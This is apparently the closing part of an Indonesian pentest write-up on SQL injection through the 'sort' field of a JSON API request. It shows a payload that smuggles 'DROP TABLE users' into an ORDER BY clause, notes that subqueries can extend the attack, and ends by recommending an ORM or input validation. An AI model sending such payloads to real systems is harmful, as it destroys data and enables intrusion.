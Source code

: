 ```sh
Te: trailers
Content-Length: 332

{
  "dataProvider": {
    "criterion": [
      {
        "criteria": "keyword",
        "operator": "LK",
        "value": "",
        "custom": true
      }
    ],
    "page": {
      "count": 2,
      "current": 2,
      "limit": 10,
      "next": 2,
      "previous": -1,
      "total": 11
    },
    "sort": [
      {
        "criteria": "id LIMIT 10 OFFSET 0+(CASE WHEN((DROP TABLE users=True) THEN 1 ELSE -1 END)--", // dimasukan query LIMIT dan -- 
        "order": "DESC"
      }
    ]
  }
}
```

maka query yang dihasilkan berupa 

```sql
SELECT * FROM sometable ORDER BY id LIMIT 10 OFFSET 0+(CASE WHEN((DROP TABLE users=True) THEN 1 ELSE -1 END) -- DESC
```

<p style="text-align: justify; letter-spacing: 0.002em;">
jika success maka table users akan terhapus, tidak hanya itu kita bisa mendesign subquery untuk melakukan serangan.
</p>

&nbsp;
## Kesimpulan

* Pentest tidak cukup hanya mengandalkan tools 
* Sebaiknya gunakan ORM atau validasi inputan dari client, sebelum memasukan menjadi bagian dari query

Thanks

